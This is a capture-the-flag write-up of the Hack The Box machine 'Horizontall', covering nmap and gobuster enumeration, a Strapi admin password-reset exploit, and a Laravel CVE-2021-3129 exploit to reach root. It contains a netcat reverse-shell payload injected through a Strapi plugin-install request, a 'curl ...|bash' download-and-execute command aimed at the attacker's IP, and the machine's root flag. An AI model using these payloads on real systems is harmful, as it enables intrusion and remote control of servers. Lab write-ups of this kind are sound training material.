 ```yaml
---
title: Horizontall - Hack The Box
date: 2021-08-29 07:07:07 +07:07
tags: [HTB]
description: Easy rated machine from Hack The Box
images: "/assets/img/horizontall/horizontall.png"
---
```


<figure>
<img src="/assets/img/horizontall/horizontall.png" alt="icon">
<figcaption> Horizontall - Hack The Box </figcaption>
</figure>

# Introduction

<a href="https://www.hackthebox.com/home/machines/profile/374" target="_blank" rel="noopener nofollow">Horizontall </a> is a easy rated machine from Hack The Box which includes admin's password reset of <a href="https://thatsn0tmysite.wordpress.com/2019/11/15/x05/" target="_blank" rel="noopener">strapi </a>, which leads to login as admin. There is RCE in starpi which will initially give us a shell as strapi user. There is vulnerable <a href="https://github.com/nth347/CVE-2021-3129_exploit" target="_blank" rel="noopener nofollow">Laravel</a> running on port 8000. So, we forward it and exploit locally to get a reverse shell.


# Nmap

```bash
# Nmap 7.91 scan initiated Thu Feb  3 09:14:00 2022 as: nmap -sC -sV -vv -oA nmap/ports 10.10.11.105
Nmap scan report for 10.10.11.105
Host is up, received timestamp-reply ttl 63 (0.48s latency).
Scanned at 2022-02-03 09:14:01 EST for 22s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  3 09:14:23 2022 -- 1 IP address (1 host up) scanned in 23.30 seconds
```

Hostname is leaked by nmap. Adding it to hosts file.

# Sub Domain

After not finding anything special on webpage, fuzzing for subdomains, we get a hit on api-prod.horizontall.htb.

```bash
% gobuster vhost -u http://horizontall.htb -w /opt/Seclists/Discovery/DNS/subdomains-top1million-110000.txt --threads 500
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb
[+] Method:       GET
[+] Threads:      500
[+] Wordlist:     /opt/Seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/02/03 09:22:13 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
Progress: 50757 / 114442 (44.35%)                       ^C
[!] Keyboard interrupt detected, terminating.
```
**Note: I have used 500 threads but never use it unless you're in hurry. It breaks your requests and you'll need to start again.**

<figure>
<img src="/assets/img/horizontall/api.png" alt="api">
<figcaption> api-prod.horizontall.htb </figcaption>
</figure>

Fuzzing for sub directories here, we get admin which leads to strapi login.

```bash
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/03 09:30:37 Starting gobuster in directory enumeration mode
===============================================================
/Admin                (Status: 200) [Size: 854]
/admin                (Status: 200) [Size: 854]
/ADMIN                (Status: 200) [Size: 854]
```

<figure>
<img src="/assets/img/horizontall/strapi.png" alt="strapi">
<figcaption> Strapi Login </figcaption>
</figure>

# Strapi Password Reset

There is <a href="https://thatsn0tmysite.wordpress.com/2019/11/15/x05/" target="_blank" rel="noopener">password</a> reset vulnerability, so we abuse it.

```bash
% python3 passreset.py admin@horizontall.htb http://api-prod.horizontall.htb password123
[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzODk4ODY1LCJleHAiOjE2NDY0OTA4NjV9.VwtIynidACLnZLk248mwnsoMKXqXHwtZtLuPcnQRH3M","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
```

**Keep that JWT token with you. We'll be needing that after sometime.**

And now, we can login as admin here.

<figure>
<img src="/assets/img/horizontall/admin.png" alt="admin">
<figcaption> Strapi Admin </figcaption>
</figure>

There is vulnerable strapi running which already has some public <a href="https://bittherapy.net/post/strapi-framework-remote-code-execution/" target="_blank" rel="noopener">exploits</a>, so we use it to get a shell.

# Reverse shell

```bash
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzODk4ODY1LCJleHAiOjE2NDY0OTA4NjV9.VwtIynidACLnZLk248mwnsoMKXqXHwtZtLuPcnQRH3M' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.57 1337 >/tmp/f)\",\"port\":\"1337\"}' $'http://api-prod.horizontall.htb/admin/plugins/install' --proxy http://127.0.0.1:8080
```
I am sending it through burp if I have typo somewhere.

<figure>
<img src="/assets/img/horizontall/burp.png" alt="burp">
<figcaption> Shell </figcaption>
</figure>

And indeed I had typos, so just reset according to your need.

```bash
% nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.57] from (UNKNOWN) [10.10.11.105] 40152
/bin/sh: 0: can't access tty; job control turned off
$ 
```

# Root

Strapi's home directory is in opt. So, after creating a .ssh directory and adding ssh key we can login with ssh. There is laravel running on port 8000, which we forward to exploit locally.

<figure>
<img src="/assets/img/horizontall/laravel.png" alt="Laravel">
<figcaption> Laravel </figcaption>
</figure>

Vulnerable <a href="https://github.com/nth347/CVE-2021-3129_exploit" target="_blank" rel="noopener nofollow">Laravel</a> is running, so we exploit it.

```bash
% python3 exploit.py http://localhost:8000 Monolog/RCE1 "id"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
% python3 exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

ee85c5acec1939622724057929ff61ca

[i] Trying to clear logs
[+] Logs cleared
```

# Shell as root

```bash
python3 exploit.py http://localhost:8000 Monolog/RCE1 "curl 10.10.14.57/zex.sh|bash"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR

% nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.57] from (UNKNOWN) [10.10.11.105] 49770
bash: cannot set terminal process group (9589): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# cat /root/root.txt
cat /root/root.txt
ee85c5acec1939622724057929ff61ca
root@horizontall:/home/developer/myproject/public#
```